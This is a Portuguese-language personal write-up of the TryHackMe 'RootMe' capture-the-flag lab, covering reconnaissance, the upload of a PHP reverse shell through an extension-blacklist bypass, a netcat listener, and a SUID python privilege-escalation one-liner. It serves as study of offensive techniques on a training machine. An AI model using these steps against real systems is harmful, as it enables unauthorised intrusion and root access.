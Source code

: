 # TryHackme - Rootme

[RootMe Room](https://tryhackme.com/room/rrootme)

### hangzou

1. **Reconhecimento**

   1. **Nmap Scan**
      - Portas
      - Serviços/Protocolos

   2. **Gobuster**
      1. Diretórios Ocultos
         - /panel/
         - /uploads/

2. **Shell Reverso**

   1. **PHP**
      - /usr/share/laudanum/php/php-reverse-shell.php
      - [Pentest Monkey PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

   2. **Blacklist Bypass**
      - .php3
      - .php4
      - .php5
      - .phtml

   3. **Netcat**
      - Endereço IP da Rede THM
      - nc -lvnp 4444
 
      > Solucionado com ajuda de Writeup

3. **Escalação de Privilégio**

   1. **Exploração de Permissão SUID**
      - /usr/bin/python 

      > Solucionado com ajuda de Writeup 

   2. **Python**
      - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
 
   3. **Root**
      - `cd /root/`
      - `ls`
      - root.txt
      - `cat root.txt`

## Concluido!

Writeup Consultado:
 
[title](https://infosecwriteups.com/tryhackme-rootme-ctf-walkthrough-detailed-a7c521df7339)

Observação:

Essa anotação é apenas um teste, que visa descrever meu passo a passo da resolução dos desafios do TryHackMe.

